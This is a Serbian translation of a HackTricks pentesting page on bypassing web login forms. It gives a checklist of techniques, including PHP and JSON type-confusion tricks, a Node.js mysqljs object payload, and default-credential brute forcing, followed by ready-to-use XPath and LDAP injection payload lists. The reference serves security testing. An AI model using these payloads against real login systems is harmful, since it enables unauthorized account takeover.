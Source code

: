 # Login Bypass

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

[**RootedCON**](https://www.rootedcon.com/) je najrelevantnija sajber bezbednosna manifestacija u **Španiji** i jedna od najvažnijih u **Evropi**. Sa **misijom promovisanja tehničkog znanja**, ovaj kongres je vrelo okupljalište za profesionalce u tehnologiji i sajber bezbednosti u svakoj disciplini.

{% embed url="https://www.rootedcon.com/" %}

## **Zaobilaženje redovnog prijavljivanja**

Ako pronađete stranicu za prijavljivanje, ovde možete pronaći neke tehnike za pokušaj zaobilaženja:

* Proverite **komentare** unutar stranice (pomaknite se nadole i nadesno?)
* Proverite da li možete **direktno pristupiti ograničenim stranicama**
* Proverite da **ne šaljete parametre** (ne šaljite nijedan ili samo 1)
* Proverite **PHP greške u poređenju:** `user[]=a&pwd=b` , `user=a&pwd[]=b` , `user[]=a&pwd[]=b`
* **Promenite tip sadržaja na json** i pošaljite json vrednosti (bool true uključeno)
* Ako dobijete odgovor koji kaže da POST nije podržan, možete pokušati da pošaljete **JSON u telu, ali sa GET zahtevom** sa `Content-Type: application/json`
* Proverite potencijalnu grešku u parsiranju nodejs-a (pročitajte [**ovo**](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4)): `password[password]=1`
* Nodejs će transformisati taj payload u upit sličan sledećem: ` SELECT id, username, left(password, 8) AS snipped_password, email FROM accounts WHERE username='admin' AND`` `` `**`password=password=1`**`;` što čini da deo za lozinku uvek bude tačan.
* Ako možete poslati JSON objekat, možete poslati `"password":{"password": 1}` da zaobiđete prijavljivanje.
* Zapamtite da da biste zaobišli ovo prijavljivanje, još uvek morate **znati i poslati važeće korisničko ime**.
* **Dodavanje `"stringifyObjects":true`** opcije prilikom pozivanja `mysql.createConnection` će na kraju **blokirati sve neočekivane ponašanja kada se `Object` prosledi** kao parametar.
* Proverite akreditive:
* [**Podrazumevani akreditive**](../../generic-methodologies-and-resources/brute-force.md#default-credentials) tehnologije/platforme koja se koristi
* **Uobičajene kombinacije** (root, admin, lozinka, naziv tehnologije, podrazumevani korisnik sa jednom od ovih lozinki).
* Kreirajte rečnik koristeći **Cewl**, **dodajte** **podrazumevani** korisnički naziv i lozinku (ako postoji) i pokušajte da ih brute-force koristeći sve reči kao **korisnička imena i lozinke**
* **Brute-force** koristeći veći **rečnik (**[**Brute force**](../../generic-methodologies-and-resources/brute-force.md#http-post-form)**)**

### SQL Injection zaobilaženje autentifikacije

[Ovde možete pronaći nekoliko trikova za zaobilaženje prijavljivanja putem **SQL injekcija**](../sql-injection/#authentication-bypass).

Na sledećoj stranici možete pronaći **prilagođenu listu za pokušaj zaobilaženja prijavljivanja** putem SQL injekcija:

{% content-ref url="sql-login-bypass.md" %}
[sql-login-bypass.md](sql-login-bypass.md)
{% endcontent-ref %}

### No SQL Injection zaobilaženje autentifikacije

[Ovde možete pronaći nekoliko trikova za zaobilaženje prijavljivanja putem **No SQL injekcija**](../nosql-injection.md#basic-authentication-bypass)**.**

Pošto NoSQL injekcije zahtevaju promenu vrednosti parametara, moraćete da ih testirate ručno.

### XPath Injection zaobilaženje autentifikacije

[Ovde možete pronaći nekoliko trikova za zaobilaženje prijavljivanja putem **XPath injekcije.**](../xpath-injection.md#authentication-bypass)
```
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```
### LDAP Injection authentication bypass

[Ovde možete pronaći nekoliko trikova za zaobilaženje prijave putem **LDAP Injection.**](../ldap-injection.md#login-bypass)
```
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
```
### Zapamti me

Ako stranica ima funkcionalnost "**Zapamti me**", proveri kako je implementirana i vidi da li možeš da je iskoristiš da **preuzmeš druge naloge**.

### Preusmeravanja

Stranice obično preusmeravaju korisnike nakon prijavljivanja, proveri da li možeš da izmeniš to preusmeravanje kako bi izazvao [**Open Redirect**](../open-redirect.md). Možda možeš da ukradeš neke informacije (kodove, kolačiće...) ako preusmeriš korisnika na svoju veb stranicu.

## Ostale provere

* Proveri da li možeš da **enumerišeš korisnička imena** zloupotrebom funkcionalnosti prijavljivanja.
* Proveri da li je **automatsko popunjavanje** aktivno u lozinkama/**osetljivim** informacijama **formama** **input:** `<input autocomplete="false">`

## Automatski alati
* [HTLogin](https://github.com/akinerkisa/HTLogin)

<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

​​[**RootedCON**](https://www.rootedcon.com/) je najrelevantnija sajber bezbednosna manifestacija u **Španiji** i jedna od najvažnijih u **Evropi**. Sa **misijom promovisanja tehničkog znanja**, ovaj kongres je vrelo okupljalište za profesionalce u tehnologiji i sajber bezbednosti u svakoj disciplini.

{% embed url="https://www.rootedcon.com/" %}

{% hint style="success" %}
Uči i vežbaj AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Uči i vežbaj GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podrži HackTricks</summary>

* Proveri [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridruži se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **prati** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podeli hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
